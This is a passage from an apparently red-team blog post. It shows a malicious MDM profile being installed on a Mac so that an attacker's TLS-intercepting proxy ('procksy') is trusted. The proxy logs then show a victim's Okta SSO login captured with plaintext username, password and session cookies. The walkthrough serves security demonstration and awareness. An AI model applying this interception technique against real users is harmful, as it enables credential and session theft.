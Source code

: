 ![Final Install Pane]({{site.url}}/images/mdm/install_final.png)
![Final Install - Expand Pane]({{site.url}}/images/mdm/install_final_expand.png)

Upon clicking `Install`, the user will be asked for either their password or fingerprint, depending on if TouchID is configured or not. After supplying credentials or using the fingerprint sensor, the profile is installed. 

## Testing The Setup
Let's hit Google and see if our setup is working. There should be no certificate errors.

![Browser Test]({{site.url}}/images/mdm/browser_verified.png)

And if we pop over to our proxy, we should see the request in STDOUT:

```
ubuntu@ip-172-31-23-174:~/procksy$ sudo ./procksy -cert ../out/Acme_Corp.crt -key ../out/Acme_Corp.key

[SNIP]

GET http://www.google.com/ HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:71.0) Gecko/20100101 Firefox/71.0
```

Let's simulate the victim signing in to their company SSO portal. 

![SSO Login]({{site.url}}/images/mdm/okta_login.png)

And the corresponding request in the proxy log:

```
POST / HTTP/1.1
Host: [SNIP].okta.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Content-Length: 39
Content-Type: application/x-www-form-urlencoded
Cookie: __cfduid=de55169fca8d355f6b947f59708f984db1576815061; _okta_attribution={\%22utm_page%22:%22/%22%2C%22utm_date%22:%2212/19/2019%22}; _okta_session_attribut
ion={\%22utm_page%22:%22/%22%2C%22utm_date%22:%2212/19/2019%22}; _okta_original_attribution={\%22utm_page%22:%22/%22%2C%22utm_date%22:%2212/19/2019%22}
Origin: https://[SNIP].okta.com
Referer: https://[SNIP].okta.com/
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:71.0) Gecko/20100101 Firefox/71.0

username=snacksun&password=slackersclub
```
